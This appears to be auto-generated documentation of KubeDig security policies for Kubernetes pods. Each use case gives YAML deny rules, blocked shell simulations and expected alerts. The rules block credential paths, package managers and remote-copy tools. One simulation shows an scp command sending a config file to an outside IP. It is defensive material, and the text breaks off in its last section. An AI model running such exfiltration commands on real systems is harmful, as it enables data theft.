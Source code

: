 <!-- (This is an auto-generated file. Do not edit manually.) -->

# KubeDig Use-Cases


<details><summary><h2>Service Account token: Protect access to k8s service account token</h2></summary>

### Description
K8s mounts the service account token as part of every pod by default. The service account token is a credential that can be used as a bearer token to access k8s APIs and gain access to other k8s entities. Many times there are no processes in the pod that use the service account tokens which means in such cases the k8s service account token is an unused asset that can be leveraged by the attacker.

### Attack Scenario
It's important to note that attackers often look for ways to gain access to other entities within Kubernetes clusters. One common method is to check for credential accesses, such as service account tokens, in order to perform lateral movements. For instance, in many Kubernetes attacks, once the attacker gains entry into a pod, they may attempt to use a service account token to access other entities. <br />  **Attack type** Credential Access, Comand Injection <br />  **Actual Attack** Hildegard, BlackT, BlackCat RaaS

### Compliance
- CIS_Kubernetes_Benchmark_v1.27, Control-Id-5.1.6

## Policy
### Service account token
```yaml
apiVersion: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: ksp-wordpress-block-service-account
  namespace: wordpress-mysql
spec:
  severity: 2
  selector:
    matchLabels:
      app: wordpress
  file:
    matchDirectories:
      - dir: /run/secrets/kubernetes.io/serviceaccount/
        recursive: true
  action: Block
```
#### Simulation
```sh
root@wordpress-7c966b5d85-42jwx:/# cd /run/secrets/kubernetes.io/serviceaccount/ 
root@wordpress-7c966b5d85-42jwx:/run/secrets/kubernetes.io/serviceaccount# ls 
ls: cannot open directory .: Permission denied 
root@wordpress-7c966b5d85-42jwx:/run/secrets/kubernetes.io/serviceaccount# 
```

#### Expected Alert
```
{
  "ATags": null,
  "Action": "Block",
  "ClusterName": "deathiscoming",
  "ContainerID": "bbf968e6a75f0b4412478770911c6dd05d5a83ec97ca38872246e89c31e9d41a",
  "ContainerImage": "docker.io/library/wordpress:4.8-apache@sha256:6216f64ab88fc51d311e38c7f69ca3f9aaba621492b4f1fa93ddf63093768845",
  "ContainerName": "wordpress",
  "Data": "syscall=SYS_OPENAT fd=-100 flags=O_RDONLY|O_NONBLOCK|O_DIRECTORY|O_CLOEXEC",
  "Enforcer": "AppArmor",
  "HashID": "f1c272d8d75bdd91b9c4d1dc74c8d0f222bf4ecd0008c3a22a54706563ec5827",
  "HostName": "aditya",
  "HostPID": 11105,
  "HostPPID": 10997,
  "Labels": "app=wordpress",
  "Message": "",
  "NamespaceName": "wordpress-mysql",
  "Operation": "File",
  "Owner": {
    "Name": "",
    "Namespace": "",
    "Ref": ""
  },
  "PID": 204,
  "PPID": 194,
  "PodName": "wordpress-7c966b5d85-42jwx",
  "PolicyName": "DefaultPosture",
  "ProcessName": "/bin/ls",
  "Resource": "/run/secrets/kubernetes.io/serviceaccount",
  "Result": "Permission denied",
  "Severity": "",
  "Source": "/bin/ls",
  "Tags": "",
  "Timestamp": 1695903189,
  "Type": "MatchedPolicy",
  "UID": 0,
  "UpdatedTime": "2023-09-28T12:13:09.159252Z",
  "cluster_id": "3664",
  "component_name": "kubedig",
  "instanceGroup": "0",
  "instanceID": "0",
  "workload": "1"
}
```

## References
[MITRE T1528: Steal Application Access Token](https://attack.mitre.org/techniques/T1528/)<br />



</details>


<details><summary><h2>FIM: File Integrity Monitoring/Protection</h2></summary>

### Description
Changes to system binary folders, configuration paths, and credentials paths need to be monitored for change. With KubeDig, one can not only monitor for changes but also block any write attempts in such system folders. Compliance frameworks such as PCI-DSS, NIST, and CIS expect FIM to be in place.

### Attack Scenario
In a possible attack scenario, an attacker may try to update the configuration to disable security controls or access logs. This can allow them to gain further access to the system and carry out malicious activities undetected. It's crucial to be aware of such threats and take proactive measures to prevent such attacks from occurring. <br /> **Attack Type** Data Manipulation, Integrity Threats<br /> **Actual Attack** NetWalker, Conti, DarkSide RaaS

### Compliance
- CIS Distribution Independent Linuxv2.0, Control-Id:6.3.5
- PCI-DSS, Requirement: 6
- PCI-DSS, Requirement: 10
- NIST_800-53_AU-2
- MITRE_T1565_data_manipulation

## Policy
### File Integrity Monitoring
```yaml
apiVersion: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: harden-mysql-file-integrity-monitoring
  namespace: wordpress-mysql
spec:
  action: Block
  file:
    matchDirectories:
    - dir: /sbin/
      readOnly: true
      recursive: true
    - dir: /usr/bin/
      readOnly: true
      recursive: true
    - dir: /usr/lib/
      readOnly: true
      recursive: true
    - dir: /usr/sbin/
      readOnly: true
      recursive: true
    - dir: /bin/
      readOnly: true
      recursive: true
    - dir: /boot/
      readOnly: true
      recursive: true
  message: Detected and prevented compromise to File integrity
  selector:
    matchLabels:
      app: mysql
  severity: 1
  tags:
  - NIST
  - NIST_800-53_AU-2
  - NIST_800-53_SI-4
  - MITRE
  - MITRE_T1036_masquerading
  - MITRE_T1565_data_manipulation
```
#### Simulation
```sh
kubectl exec -it mysql-74775b4bf4-65nqf -n wordpress-mysql -- bash
root@mysql-74775b4bf4-65nqf:/# cd sbin
root@mysql-74775b4bf4-65nqf:/sbin# touch file
touch: cannot touch 'file': Permission denied
root@mysql-74775b4bf4-65nqf:/sbin# cd ..
```


### Expected Alert
```
{
  "ATags": [
    "NIST",
    "NIST_800-53_AU-2",
    "NIST_800-53_SI-4",
    "MITRE",
    "MITRE_T1036_masquerading",
    "MITRE_T1565_data_manipulation"
  ],
  "Action": "Block",
  "ClusterName": "aditya",
  "ContainerID": "b75628d4225b8071d5795da342cf2a5c03b1d67b22b40016697fcd17a0db20e4",
  "ContainerImage": "docker.io/library/mysql:5.6@sha256:20575ecebe6216036d25dab5903808211f1e9ba63dc7825ac20cb975e34cfcae",
  "ContainerName": "mysql",
  "Data": "syscall=SYS_OPEN flags=O_WRONLY|O_CREAT|O_NOCTTY|O_NONBLOCK",
  "Enforcer": "AppArmor",
  "HashID": "f0b220bfa3b7aeae754f3bf8a60dd1a0af001f5956ad22f625bdf83406a7fea3",
  "HostName": "aditya",
  "HostPID": 16462,
  "HostPPID": 16435,
  "Labels": "app=mysql",
  "Message": "Detected and prevented compromise to File integrity",
  "NamespaceName": "wordpress-mysql",
  "Operation": "File",
  "Owner": {
    "Name": "mysql",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 167,
  "PPID": 160,
  "PodName": "mysql-74775b4bf4-65nqf",
  "PolicyName": "harden-mysql-file-integrity-monitoring",
  "ProcessName": "/bin/touch",
  "Resource": "/sbin/file",
  "Result": "Permission denied",
  "Severity": "1",
  "Source": "/usr/bin/touch file",
  "Tags": "NIST,NIST_800-53_AU-2,NIST_800-53_SI-4,MITRE,MITRE_T1036_masquerading,MITRE_T1565_data_manipulation",
  "Timestamp": 1696316210,
  "Type": "MatchedPolicy",
  "UID": 0,
  "UpdatedTime": "2023-10-03T06:56:50.829165Z",
  "cluster_id": "3896",
  "component_name": "kubedig",
  "instanceGroup": "0",
  "instanceID": "0",
  "workload": "1"
}
```

## References
[Mitre-Techniques-T1565](https://attack.mitre.org/techniques/T1565/)<br />[PCI DSS and FIM](https://pcidssguide.com/the-pci-dss-and-file-integrity-monitoring/)<br />[The biggest ransomware attacks in history](https://www.techtarget.com/searchsecurity/tip/The-biggest-ransomware-attacks-in-history)<br />



</details>


<details><summary><h2>Packaging tools: Deny execution of package management tools</h2></summary>

### Description
Pods/Containers might get shipped with binaries which should never used in the production environments. Some of those bins might be useful in dev/staging environments but the same container image is carried forward in most cases to the production environment too. For security reasons, the devsecops team might want to disable the use of these binaries in the production environment even though the bins exists in the container. As an example, most of the container images are shipped with package management tools such as apk, apt, yum, etc. If anyone ends up using these bins in the prod env, it will increase the attack surface of the container/pod.

### Attack Scenario
In an attack scenario, adversaries may use system tools such as fsck, ip, who, apt, and others for reconnaissance and to download additional tooling from remote servers. These tools can help them gain valuable information about the system and its vulnerabilities, allowing them to carry out further attacks. It's important to be vigilant about such activities and implement security measures to prevent such attacks from happening.<br /> **Attack Type** Command Injection, Malware, Backdoor<br /> **Actual Attack**  AppleJeus, Codecov supply chain

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id:6.4.5
- NIST_800-53_SI-4
- NIST_800-53_CM-7(4)

## Policy
### Packaging tools execution
```yaml
apiVersion: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: harden-mysql-pkg-mngr-exec
  namespace: wordpress-mysql
spec:
  action: Block
  message: Alert! Execution of package management process inside container is denied
  process:
    matchPaths:
    - path: /usr/bin/apt
    - path: /usr/bin/apt-get
    - path: /bin/apt-get
    - path: /sbin/apk
    - path: /bin/apt
    - path: /usr/bin/dpkg
    - path: /bin/dpkg
    - path: /usr/bin/gdebi
    - path: /bin/gdebi
    - path: /usr/bin/make
    - path: /bin/make
    - path: /usr/bin/yum
    - path: /bin/yum
    - path: /usr/bin/rpm
    - path: /bin/rpm
    - path: /usr/bin/dnf
    - path: /bin/dnf
    - path: /usr/bin/pacman
    - path: /usr/sbin/pacman
    - path: /bin/pacman
    - path: /sbin/pacman
    - path: /usr/bin/makepkg
    - path: /usr/sbin/makepkg
    - path: /bin/makepkg
    - path: /sbin/makepkg
    - path: /usr/bin/yaourt
    - path: /usr/sbin/yaourt
    - path: /bin/yaourt
    - path: /sbin/yaourt
    - path: /usr/bin/zypper
    - path: /bin/zypper
  selector:
    matchLabels:
      app: mysql
  severity: 5
  tags:
  - NIST
  - NIST_800-53_CM-7(4)
  - SI-4
  - process
  - NIST_800-53_SI-4
```
#### Simulation
```sh
kubectl exec -it mysql-74775b4bf4-65nqf -n wordpress-mysql -- bash
root@mysql-74775b4bf4-65nqf:/# apt
bash: /usr/bin/apt: Permission denied
root@mysql-74775b4bf4-65nqf:/# apt-get
bash: /usr/bin/apt-get: Permission denied
```

#### Expected Alert
```
{
  "ATags": [
    "NIST",
    "NIST_800-53_CM-7(4)",
    "SI-4",
    "process",
    "NIST_800-53_SI-4"
  ],
  "Action": "Block",
  "ClusterName": "aditya",
  "ContainerID": "b75628d4225b8071d5795da342cf2a5c03b1d67b22b40016697fcd17a0db20e4",
  "ContainerImage": "docker.io/library/mysql:5.6@sha256:20575ecebe6216036d25dab5903808211f1e9ba63dc7825ac20cb975e34cfcae",
  "ContainerName": "mysql",
  "Data": "syscall=SYS_EXECVE",
  "Enforcer": "AppArmor",
  "HashID": "dd573c234f68b8df005e8cd314809c8b2a23852230d397743e348bf4a03ada3f",
  "HostName": "aditya",
  "HostPID": 21894,
  "HostPPID": 16435,
  "Labels": "app=mysql",
  "Message": "Alert! Execution of package management process inside container is denied",
  "NamespaceName": "wordpress-mysql",
  "Operation": "Process",
  "Owner": {
    "Name": "mysql",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 168,
  "PPID": 160,
  "PodName": "mysql-74775b4bf4-65nqf",
  "PolicyName": "harden-mysql-pkg-mngr-exec",
  "ProcessName": "/usr/bin/apt",
  "Resource": "/usr/bin/apt",
  "Result": "Permission denied",
  "Severity": "5",
  "Source": "/bin/bash",
  "Tags": "NIST,NIST_800-53_CM-7(4),SI-4,process,NIST_800-53_SI-4",
  "Timestamp": 1696318864,
  "Type": "MatchedPolicy",
  "UID": 0,
  "UpdatedTime": "2023-10-03T07:41:04.096412Z",
  "cluster_id": "3896",
  "component_name": "kubedig",
  "instanceGroup": "0",
  "instanceID": "0",
  "workload": "1"
}
```

## References
[MITRE Installer Packages](https://attack.mitre.org/techniques/T1546/016/)<br />[Codecov Incident - A Supply Chain Attack](https://blog.sonatype.com/what-you-need-to-know-about-the-codecov-incident-a-supply-chain-attack-gone-undetected-for-2-months)<br />



</details>


<details><summary><h2>Trusted certs bundle: Protect write access to the trusted root certificates bundle</h2></summary>

### Description
Adversaries may install a root certificate on a compromised system to avoid warnings when connecting to adversary-controlled web servers. Root certificates are used in public key cryptography to identify a root certificate authority (CA). When a root certificate is installed, the system or application will trust certificates in the root's chain of trust that have been signed by the root certificate. Installation of a root certificate on a compromised system would give an adversary a way to degrade the security of that system.

### Attack Scenario
By using this technique, attackers can successfully evade security warnings that alert users when compromised systems connect over HTTPS to adversary-controlled web servers. These servers often look like legitimate websites, and are designed to trick users into entering their login credentials, which can then be used by the attackers. It's important to be aware of this threat and take necessary precautions to prevent these attacks from happening.<br /> **Attack Type** Man-In-The-Middle(MITM)<br /> **Actual Attack**  POODLE(Padding Oracle On Downgraded Legacy Encryption), BEAST (Browser Exploit Against SSL/TLS)

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id: 6.3.4
- MITRE_T1552_unsecured_credentials

## Policy
### Trusted Certs Bundle
```yaml
apiVersion: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: harden-mysql-trusted-cert-mod
  namespace: wordpress-mysql
spec:
  action: Block
  file:
    matchDirectories:
    - dir: /etc/ssl/
      readOnly: true
      recursive: true
    - dir: /etc/pki/
      readOnly: true
      recursive: true
    - dir: /usr/local/share/ca-certificates/
      readOnly: true
      recursive: true
  message: Credentials modification denied
  selector:
    matchLabels:
      app: mysql
  severity: 1
  tags:
  - MITRE
  - MITRE_T1552_unsecured_credentials
  - FGT1555
  - FIGHT
```
#### Simulation
```sh
 kubectl exec -it mysql-74775b4bf4-65nqf -n wordpress-mysql -- bash
root@mysql-74775b4bf4-65nqf:/# cd /etc/ssl/
root@mysql-74775b4bf4-65nqf:/etc/ssl# ls
certs
root@mysql-74775b4bf4-65nqf:/etc/ssl# rmdir certs
rmdir: failed to remove 'certs': Permission denied
root@mysql-74775b4bf4-65nqf:/etc/ssl# cd certs/
root@mysql-74775b4bf4-65nqf:/etc/ssl/certs# touch new
touch: cannot touch 'new': Permission denied
root@mysql-74775b4bf4-65nqf:/etc/ssl/certs#
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "aditya",
  "ContainerID": "b75628d4225b8071d5795da342cf2a5c03b1d67b22b40016697fcd17a0db20e4",
  "ContainerImage": "docker.io/library/mysql:5.6@sha256:20575ecebe6216036d25dab5903808211f1e9ba63dc7825ac20cb975e34cfcae",
  "ContainerName": "mysql",
  "Data": "syscall=SYS_RMDIR",
  "Enforcer": "AppArmor",
  "HostName": "aditya",
  "HostPID": 24462,
  "HostPPID": 24411,
  "Labels": "app=mysql",
  "Message": "Credentials modification denied",
  "NamespaceName": "wordpress-mysql",
  "Operation": "File",
  "Owner": {
    "Name": "mysql",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 185,
  "PPID": 179,
  "ParentProcessName": "/bin/bash",
  "PodName": "mysql-74775b4bf4-65nqf",
  "PolicyName": "harden-mysql-trusted-cert-mod",
  "ProcessName": "/bin/rmdir",
  "Resource": "/etc/ssl/certs",
  "Result": "Permission denied",
  "Severity": "1",
  "Source": "/bin/rmdir certs",
  "Tags": "MITRE,MITRE_T1552_unsecured_credentials,FGT1555,FIGHT",
  "Timestamp": 1696320102,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-03T08:01:42.373810Z",
  "cluster_id": "3896",
  "component_name": "kubedig",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[MITRE Subvert Trust Controls](https://attack.mitre.org/techniques/T1553/004/)<br />[MITRE Unsecured credentials](https://attack.mitre.org/techniques/T1552/)<br />[POODLE Attack](https://www.acunetix.com/blog/web-security-zone/what-is-poodle-attack/)<br />[BEAST](https://docs.digicert.com/en/certcentral/certificate-tools/discovery-user-guide/tls-ssl-endpoint-vulnerabilities/beast.html#:~:text=In%20a%20BEAST%20attack%2C%20the,e.g.%2C%20HTTP%20authentication%20cookies).)<br />



</details>


<details><summary><h2>Database access: Protect read/write access to raw database tables from unknown processes.</h2></summary>

### Description
Applications use databases to store all the information such as posts, blogs, user information, etc. WordPress applications almost certainly use a MySQL database for storing their content, and those are usually stored elsewhere on the system, often /var/lib/mysql/some_db_name. 

### Attack Scenario
Adversaries have been known to use various techniques to steal information from databases. This information can include user credentials, posts, blogs, and more. By obtaining this information, adversaries can gain access to user accounts and potentially perform a full-account takeover, which can lead to further compromise of the target system. It's important to ensure that appropriate security measures are in place to protect against these types of attacks.<br /> **Attack Type** SQL Injection, Credential Access, Account Takeover<br /> **Actual Attack** Yahoo Voices Data Breach in 2012

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id: 6.14.4

## Policy
### Database Access
```yaml
apiVersion: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: ksp-block-mysql-dir
  namespace: wordpress-mysql
spec:
  message: Alert! Attempt to make changes to database detected
  tags:
  - CIS
  - CIS_Linux
  selector:
    matchLabels:
      app: mysql
  file:
    matchDirectories:
    - dir: /var/lib/mysql/
      ownerOnly: true
      readOnly: true
      severity: 1
      action: Block
```
#### Simulation
```sh
kubectl exec -it mysql-74775b4bf4-65nqf -n wordpress-mysql -- bash
root@mysql-74775b4bf4-65nqf:/# cd var/lib/mysql
root@mysql-74775b4bf4-65nqf:/var/lib/mysql# cat ib_logfile1
cat: ib_logfile1: Permission denied
root@mysql-74775b4bf4-65nqf:/var/lib/mysql#
```

#### Expected Alert
```
{
  "ATags": [
    "CIS",
    "CIS_Linux"
  ],
  "Action": "Block",
  "ClusterName": "aditya",
  "ContainerID": "b75628d4225b8071d5795da342cf2a5c03b1d67b22b40016697fcd17a0db20e4",
  "ContainerImage": "docker.io/library/mysql:5.6@sha256:20575ecebe6216036d25dab5903808211f1e9ba63dc7825ac20cb975e34cfcae",
  "ContainerName": "mysql",
  "Data": "syscall=SYS_OPEN flags=O_RDONLY",
  "Enforcer": "AppArmor",
  "HashID": "a7b7d91d52de395fe6cda698e89e0112e6f3ab818ea331cee60295a8ede358c8",
  "HostName": "aditya",
  "HostPID": 29898,
  "HostPPID": 29752,
  "Labels": "app=mysql",
  "Message": "Alert! Attempt to make changes to database detected",
  "NamespaceName": "wordpress-mysql",
  "Operation": "File",
  "Owner": {
    "Name": "mysql",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 230,
  "PPID": 223,
  "PodName": "mysql-74775b4bf4-65nqf",
  "PolicyName": "ksp-block-mysql-dir",
  "ProcessName": "/bin/cat",
  "Resource": "/var/lib/mysql/ib_logfile1",
  "Result": "Permission denied",
  "Severity": "1",
  "Source": "/bin/cat ib_logfile1",
  "Tags": "CIS,CIS_Linux",
  "Timestamp": 1696322555,
  "Type": "MatchedPolicy",
  "UID": 0,
  "UpdatedTime": "2023-10-03T08:42:35.618890Z",
  "cluster_id": "3896",
  "component_name": "kubedig",
  "instanceGroup": "0",
  "instanceID": "0",
  "workload": "1"
}
```

## References
[MITRE Scan Databases](https://attack.mitre.org/techniques/T1596/005/)<br />[Yahoo Service Hacked](https://arstechnica.com/information-technology/2012/07/yahoo-service-hacked/)<br />



</details>


<details><summary><h2>Config data: Protect access to configuration data containing plain text credentials.</h2></summary>

### Description
Adversaries may search local file systems and remote file shares for files containing insecurely stored credentials. These can be files created by users to store their own credentials, shared credential stores for a group of individuals, configuration files containing passwords for a system or service, or source code/binary files containing embedded passwords.

### Attack Scenario
In a possible attack scenario, an attacker may try to change the configurations to open websites to application security holes such as session hijacking and cross-site scripting attacks, which can lead to the disclosure of private data. Additionally, attackers can also leverage these changes to gather sensitive information. It's crucial to take proactive measures to prevent these attacks from occurring.<br /> **Attack Type** Cross-Site Scripting(XSS), Data manipulation, Session hijacking<br /> **Actual Attack** XSS attack on Fortnite 2019, Turla LightNeuron Attack

### Compliance
- CIS Distribution Independent Linuxv2.0
- Control-Id: 6.16.14

## Policy
### Config data
```yaml
apiVersion: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: ksp-block-stig-v-81883-restrict-access-to-config-files
  namespace: wordpress-mysql
spec:
  tags:
  - config-files
  message: Alert! configuration files have been accessed
  selector:
    matchLabels:
      app: wordpress
  file:
    matchPatterns:
    - pattern: /**/*.conf
      ownerOnly: true
  action: Block
```
#### Simulation

With a shell different than the user owning the file:
```sh
$ cat /etc/ca-certificates.conf                                                                                         
cat: /etc/ca-certificates.conf: Permission denied                                                                       
$                                                   
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "d3mo",
  "ContainerID": "548176888fca6bb6d66633794f3d5f9d54930a9d9f43d4f05c11de821c758c0f",
  "ContainerImage": "docker.io/library/wordpress:4.8-apache@sha256:6216f64ab88fc51d311e38c7f69ca3f9aaba621492b4f1fa93ddf63093768845",
  "ContainerName": "wordpress",
  "Data": "syscall=SYS_OPEN flags=O_RDONLY",
  "Enforcer": "AppArmor",
  "HostName": "master-node",
  "HostPID": 39039,
  "HostPPID": 38787,
  "Labels": "app=wordpress",
  "NamespaceName": "wordpress-mysql",
  "Operation": "File",
  "Owner": {
    "Name": "wordpress",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 220,
  "PPID": 219,
  "ParentProcessName": "/bin/dash",
  "PodName": "wordpress-fb448db97-wj7n7",
  "PolicyName": "DefaultPosture",
  "ProcessName": "/bin/cat",
  "Resource": "/etc/ca-certificates.conf",
  "Result": "Permission denied",
  "Source": "/bin/cat /etc/ca-certificates.conf",
  "Timestamp": 1696485467,
  "Type": "MatchedPolicy",
  "UID": 1000,
  "UpdatedTime": "2023-10-05T05:57:47.935622Z",
  "cluster_id": "2302",
  "component_name": "kubedig",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[MITRE Unsecured credentials in files](https://attack.mitre.org/techniques/T1552/001/)<br />[Turla LightNeuron](https://www.welivesecurity.com/2019/05/07/turla-lightneuron-email-too-far/)<br />



</details>


<details><summary><h2>File Copy: Prevent file copy using standard utilities.</h2></summary>

### Description
Exfiltration consists of techniques that adversaries may use to steal data from your network. Once they’ve collected data, adversaries often package it to avoid detection while removing it. This can include compression and encryption. Techniques for getting data out of a target network typically include transferring it over their command and control channel or an alternate channel and may also include putting size limits on the transmission.

### Attack Scenario
It's important to note that file copy tools can be leveraged by attackers for exfiltrating sensitive data and transferring malicious payloads into the workloads. Additionally, it can also assist in lateral movement within the system. It's crucial to take proactive measures to prevent these attacks from occurring.<br /> **Attack Type** Credential Access, Lateral movements, Information Disclosure<br /> **Actual Attack** DarkBeam Data Breach, Shields Health Care Group data breach

### Compliance
- MITRE_TA0010_exfiltration
- NIST_800-53_SI-4(18)
- MITRE_TA0008_lateral_movement

## Policy
### File Copy
```yaml
apiVersion: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: harden-wordpress-remote-file-copy
  namespace: wordpress-mysql
spec:
  action: Block
  message: Alert! remote file copy tools execution prevented.
  process:
    matchPaths:
    - path: /usr/bin/rsync
    - path: /bin/rsync
    - path: /usr/bin/scp
    - path: /bin/scp
    - path: /usr/bin/scp
    - path: /bin/scp
  selector:
    matchLabels:
      app: wordpress
  severity: 5
  tags:
  - MITRE
  - MITRE_TA0008_lateral_movement
  - MITRE_TA0010_exfiltration
  - MITRE_TA0006_credential_access
  - MITRE_T1552_unsecured_credentials
  - NIST_800-53_SI-4(18)
  - NIST
  - NIST_800-53
  - NIST_800-53_SC-4
```
#### Simulation
```sh
root@wordpress-fb448db97-wj7n7:/usr/bin# scp /etc/ca-certificates.conf 104.192.3.74:/mine/                              
bash: /usr/bin/scp: Permission denied                                                                                   
root@wordpress-fb448db97-wj7n7:/usr/bin#     
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "d3mo",
  "ContainerID": "548176888fca6bb6d66633794f3d5f9d54930a9d9f43d4f05c11de821c758c0f",
  "ContainerImage": "docker.io/library/wordpress:4.8-apache@sha256:6216f64ab88fc51d311e38c7f69ca3f9aaba621492b4f1fa93ddf63093768845",
  "ContainerName": "wordpress",
  "Data": "syscall=SYS_EXECVE",
  "Enforcer": "AppArmor",
  "HostName": "master-node",
  "HostPID": 72178,
  "HostPPID": 30490,
  "Labels": "app=wordpress",
  "Message": "Alert! remote file copy tools execution prevented.",
  "NamespaceName": "wordpress-mysql",
  "Operation": "Process",
  "Owner": {
    "Name": "wordpress",
    "Namespace": "wordpress-mysql",
    "Ref": "Deployment"
  },
  "PID": 259,
  "PPID": 193,
  "ParentProcessName": "/bin/bash",
  "PodName": "wordpress-fb448db97-wj7n7",
  "PolicyName": "harden-wordpress-remote-file-copy",
  "ProcessName": "/usr/bin/scp",
  "Resource": "/usr/bin/scp /etc/ca-certificates.conf 104.192.3.74:/mine/",
  "Result": "Permission denied",
  "Severity": "5",
  "Source": "/bin/bash",
  "Tags": "MITRE,MITRE_TA0008_lateral_movement,MITRE_TA0010_exfiltration,MITRE_TA0006_credential_access,MITRE_T1552_unsecured_credentials,NIST_800-53_SI-4(18),NIST,NIST_800-53,NIST_800-53_SC-4",
  "Timestamp": 1696487496,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-05T06:31:36.085860Z",
  "cluster_id": "2302",
  "component_name": "kubedig",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```

## References
[MITRE Exfiltration](https://attack.mitre.org/tactics/TA0010/)<br />[Darkbeams data breach](https://www.idstrong.com/sentinel/darkbeams-alarming-data-breach/)<br />[Shields Healthcare Group Data Breach](https://www.idstrong.com/sentinel/shields-healthcare-group-data-breach/)<br />



</details>


<details><summary><h2>Network Access: Process based network access control</h2></summary>

### Description
Typically, within a pod/container, there are only specific processes that need to use network access. KubeDig allows one to specify the set of binaries that are allowed to use network primitives such as TCP, UDP, and Raw sockets and deny everyone else.

### Attack Scenario
In a possible attack scenario, an attacker binary may attempt to send a beacon to its Command and Control (C&C) Server. Additionally, the binary may use network primitives to exfiltrate pod/container data and configuration. It's important to monitor network traffic and take proactive measures to prevent these attacks from occurring, such as implementing proper access controls and segmenting the network.<br /> **Attack Type** Denial of Service(DoS), Distributed Denial of Service(DDoS)<br /> **Actual Attack** DDoS attacks on websites of public institutions in Belgium, DDoS attack on the website of a city government in Germany

### Compliance
- Network Access

## Policy
### Network Access
```yaml
apiVersion: security.kubedig.com/v1
kind: KubeDigPolicy
metadata:
  name: restrict-proccess
  namespace: default
spec:
  severity: 4
  selector:
    matchLabels:
      app: nginx
  network:
    matchProtocols:
    - protocol: tcp
      fromSource:
      - path: /usr/bin/wget
    - protocol: udp
      fromSource:
      - path: /usr/bin/wget
  action:
    Allow
```
#### Simulation
Set the default security posture to default-deny

```sh
kubectl annotate ns default kubedig-network-posture=block --overwrite
```

```sh
kubectl exec -it nginx-77b4fdf86c-x7sdm -- bash
root@nginx-77b4fdf86c-x7sdm:/# curl www.google.com
curl: (6) Could not resolve host: www.google.com
root@nginx-77b4fdf86c-x7sdm:/# wget https://github.com/zfz-725/KubeDig/blob/main/examples/wordpress-mysql/original/wordpress-mysql-deployment.yaml
--2023-10-06 11:08:58--  https://github.com/zfz-725/KubeDig/blob/main/examples/wordpress-mysql/original/wordpress-mysql-deployment.yaml
Resolving github.com (github.com)... 20.207.73.82
Connecting to github.com (github.com)|20.207.73.82|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15051 (15K) [text/plain]
Saving to: 'wordpress-mysql-deployment.yaml.2'

wordpress-mysql-deployment.ya 100%[=================================================>]  14.70K  --.-KB/s    in 0.08s

2023-10-06 11:08:59 (178 KB/s) - 'wordpress-mysql-deployment.yaml.2' saved [15051/15051]
```

#### Expected Alert
```
{
  "Action": "Block",
  "ClusterName": "0-trust",
  "ContainerID": "20a6333c6a46e0da32b3062f0ba76e9aed4fc5ef51f5ee8aec5b980963cedea3",
  "ContainerImage": "docker.io/library/nginx:latest@sha256:32da30332506740a2f7c34d5dc70467b7f14ec67d912703568daff790ab3f755",
  "ContainerName": "nginx",
  "Data": "syscall=SYS_SOCKET",
  "Enforcer": "AppArmor",
  "HostName": "aditya",
  "HostPID": 73952,
  "HostPPID": 73945,
  "Labels": "app=nginx",
  "NamespaceName": "default",
  "Operation": "Network",
  "Owner": {
    "Name": "nginx",
    "Namespace": "default",
    "Ref": "Deployment"
  },
  "PID": 532,
  "PPID": 525,
  "ParentProcessName": "/usr/bin/bash",
  "PodName": "nginx-77b4fdf86c-x7sdm",
  "PolicyName": "DefaultPosture",
  "ProcessName": "/usr/bin/curl",
  "Resource": "domain=AF_INET type=SOCK_DGRAM|SOCK_NONBLOCK|SOCK_CLOEXEC protocol=0",
  "Result": "Permission denied",
  "Source": "/usr/bin/curl www.google.com",
  "Timestamp": 1696588301,
  "Type": "MatchedPolicy",
  "UpdatedTime": "2023-10-06T10:31:41.935146Z",
  "cluster_id": "4291",
  "component_name": "kubedig",
  "instanceGroup": "0",
  "instanceID": "0",
  "tenant_id": "167",
  "workload": "1"
}
```





</details>


<details><summary><h2>/tmp/ noexec: Do not allow execution of binaries from /tmp/ folder.</h2></summary>

### Description
If provided the necessary privileges, users have the ability to install software in organizational information systems. To maintain control over the types of software installed, organizations identify permitted and prohibited actions regarding software installation. Prohibited software installations may include, for example, software with unknown or suspect pedigrees or software that organizations consider potentially malicious.

### Attack Scenario
